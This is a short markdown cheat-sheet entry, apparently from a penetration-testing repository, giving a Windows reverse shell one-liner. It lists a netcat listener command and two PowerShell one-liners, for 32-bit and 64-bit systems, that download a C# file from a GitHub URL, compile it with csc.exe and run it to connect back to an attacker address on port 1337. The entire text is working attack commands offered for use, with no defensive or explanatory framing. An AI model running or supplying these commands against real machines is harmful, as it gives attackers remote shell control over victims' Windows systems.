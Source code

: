 ##### Windows one liner reverse shell with C# 

##### attacker listen :  nc -lvp 1337

#### 32bit 
`powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/sailay1996/misc-bin/master/rev.cs', '.\rev.cs') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe rev.cs && rev.exe 10.0.0.1 1337`

#### 64bit
`powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/sailay1996/misc-bin/master/rev.cs', '.\rev.cs') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\csc.exe rev.cs && rev.exe 10.0.0.1 1337`
